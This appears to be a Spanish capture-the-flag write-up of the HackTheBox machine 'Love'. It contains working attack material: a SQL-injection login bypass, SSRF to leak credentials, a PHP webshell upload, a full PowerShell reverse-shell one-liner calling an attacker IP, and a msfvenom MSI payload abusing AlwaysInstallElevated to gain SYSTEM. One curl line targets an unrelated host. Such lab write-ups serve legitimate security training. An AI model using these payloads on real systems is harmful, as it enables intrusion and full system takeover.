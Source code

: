 # 10.10.10.239 - Love

![Love](https://user-images.githubusercontent.com/96772264/197388747-319cf1cf-6a22-4e92-aecf-e255da52f783.png)

-------------------

# Parte 1 - Reconocimiento

Tenemos abiertos los puertos: 80 (http) ,135(rpc),139(smb tambien),443,445(smb),3306(sql),5000,5040,5985,5986,7680

### Nmap -> escaneo de servicios

```sudo nmap -sCV -T5 -p443,445,3306,5000,5040,5985,5986,7680 10.10.10.239```
Las conclusiones que nos da Nmap son estas:
- El puerto 443 da error 403 Forbidden, pero es un Apache 2.4.46 con PHP 7.3.27.
- Tenemos el dominio staging.love.htb y la empresa se llama *ValentineCorp*
- Por smb tenemos que el sistema se llama LOVE y el Workgroup es WORKGROUP
- Puerto 5000, lo mismo que en el 443, error 403 y Apache 2.4.46/PHP 7.3.27.
 

### Puerto 80:
└─$ whatweb http://10.10.10.239
http://10.10.10.239 [200 OK] Apache[2.4.46], Bootstrap, Cookies[PHPSESSID], OpenSSL/[1.1.1j] PHP[7.3.27], IP[10.10.10.239], JQuery, PasswordField[password], Script, Title[Voting System using PHP]

### Puerto 445 y 139:

No podemos acceder sin creds a ninguno.
```console
└─$ smbclient -L 10.10.10.239 -N 
session setup failed: NT_STATUS_ACCESS_DENIED
└─$ rpcclient -U "" 10.10.10.239 -N
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```
### Puerto 443 
La web da forbidden, pero al tener ssl ```openssl s_client -connect love.htb:443``` obtenemos el mail de 
roy@love.htb.

```rpcclient -U "roy" 10.10.10.239 -N # NT_STATUS_LOGON_FAILURE```
Pero intentar bruteforcear la contraseña no da resultado: ```crackmapexec smb 10.10.10.239 -u "roy" -p /usr/share/wordlists/rockyou.txt```

-------------------------

# Parte 2: Explotación web

![lovehtb_1](https://user-images.githubusercontent.com/96772264/197388800-902b1bae-7d9a-4ee9-b064-95ab048cdd3a.PNG)


Como esto bien decia, la web http://10.10.10.239 / http://love.htb tiene el formulario este de "php voting system".  
Peticion -> ```POST a /login.php voter=123&password=123&login= PHPSESSID="8uonobi5kr3p0cvm2hir2o2g63" ``` 
Nos ha dado que "Cannot find voter with the ID" cosa que me incita a fuzzear este mismo.  

```console
└─$ hydra -L ./numbers.txt -p test love.htb https-post-form "/login.php:voter=^USER^&password=^PASS^:F=Cannot find voter with the ID" 
```
Pero tras un rato nada.  

En la seccion de comentarios hay ```<!-- WARNING: Respond.js doesn't work if you view the page via file:// -->``` Pero la ruta "/js/Respond.js" da error 404.  

Como no he podido fuzzear el Voting System (y para la ruta staging tambien), queda buscarle en el searchsploit.  
```searchsploit Voting System``` Hay varios para autenticarse mediante SQLI, uno de ellos dice de poner.  
```admin:' or ''='``` a */admin* pero no dio resultado. En cambio otro mas largo Si va:  
```login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -```

Lo del medio que envia parece un formato de hash a juzgar por los "$". Una vez en la web del Voting system tenemos que el usaurio se llama "Neovic Devierte" 
(puede que nos sirva para los otros servicios).  

![lovehtb_2](https://user-images.githubusercontent.com/96772264/197388822-dfcecd45-a2bf-449d-b0dc-9a3128dcfebf.PNG)

Hay otro exploit que habla de un file upload en /candidates.php, no esta nada sanitizado, pero si intento subir algo me da problemas el campo de *Position*.     

![lovehtb_3](https://user-images.githubusercontent.com/96772264/197388834-55fac078-1160-46fb-90d0-008d2d35d63c.PNG)

En staging.love.htb hay un campo para peticiones. Si le pido que se la haga a mi servidor me responde  

![lovehtb_4](https://user-images.githubusercontent.com/96772264/197388841-1fa009bb-4a4f-401b-b5ba-febcf8b73caf.PNG)

```console
└─$ sudo python3 -m http.server   
[sudo] password for cucuxii:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.239 - - [23/Oct/2022 10:56:37] "GET / HTTP/1.1" 200 -
10.10.10.239 - - [23/Oct/2022 10:59:11] "GET /shell.php HTTP/1.1" 200 -
```

Pero el php no lo interpreta.   
Si se lo pido al loscalhost me sale el formulatio del Voting System. Teniamos varias paginas Forbidden.  

La web del puerto 443 no me deja verla ```http://127.0.0.1:443 o https://127.0.0.1:443``` Pero la del 5000 si. Nos dan las creds "admin:@LoveIsInTheAir!!!!"  
Con el puerto 80 dichas creds nos llevan a la web de antes (que seguimos teniendo problema con subir el Candidato)  

![lovehtb_5](https://user-images.githubusercontent.com/96772264/197388860-915adddc-f7f3-4fc5-8ac4-f873ffa98392.PNG)

Tampoco nos sirven para el smb ni para admin ni para roy.  

En la web aparte de subir Candidatos puedes subir Votantes, ahí no hay ningun campo que nos de problemas.  
Subí el cmd.php y en la lista de Votantes me salió la foto (obviamente como es un shell.php no se muestra tal)  

![lovehtb6](https://user-images.githubusercontent.com/96772264/197388876-34ff9dc0-cad2-4dbe-9f14-9dcc5051c6ec.PNG)

-------------------------

# Parte 3: Accediento al sistema

¿Pero donde está la backdoor? Como se subió en el campo de *foto*, al darle a *copy image location*   
```http://love.htb/images/shell.php?cmd=whoami```

Como tenemos ejecucion remota de comandos, ahora solo tenemos que ejecutar una reverse shell (y escuchar por netcat).  

La reverse shell seria esta:
```console
curl -s -X POST -d "powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.15%27%2C443%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit.php
```
Esto es la version urlencodeada de un [oneliner de powerhsell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3):  
```powershell
*powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"*
```
Nos ponemos en escucha por el netcat.  
```console
└─$ sudo nc -nlvp 443
whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> 
```
```console
└─$ impacket-smbserver carpeta $(pwd) -smb2support
[*] Phoebe::LOVE:aaaaaaaaaaaaaaaa:f61b6d088db119ce592bb4d0a56f709b:010100000000000000718863cde6d8019d6b0265e2c0f8150000000001001000730065006a00720067004f004c006c0003001000730065006a00720067004f004c006c000200100053005200610071005900410051004d000400100053005200610071005900410051004d000700080000718863cde6d80106000400020000000800300030000000000000000000000000200000dc7b78e8b0b71bd6254ed079cc9343e57d00d68f7334579eb372fe74b4607ffe0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310035000000000000000000

PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\enumeracion_windows.bat . 
```
-------------------------

# Parte 4: Explotado Always Install Elevated

Nuestro [script](https://github.com/CUCUxii/win_enum/blob/main/enumeracion_windows.bat) nos dice que:  
- Usuarios: Administrator, Phoebe  
- El always Install elevated está activado 

La manera de explotar esto es:  
```console
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=666 -f msi -o reverse.msi
Saved as: reverse.msi
PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\reverse.msi .
msiexec /quiet /qn /i C:\xampp\htdocs\omrs\images\reverse.msi
└─$ sudo nc -nlvp 666
C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

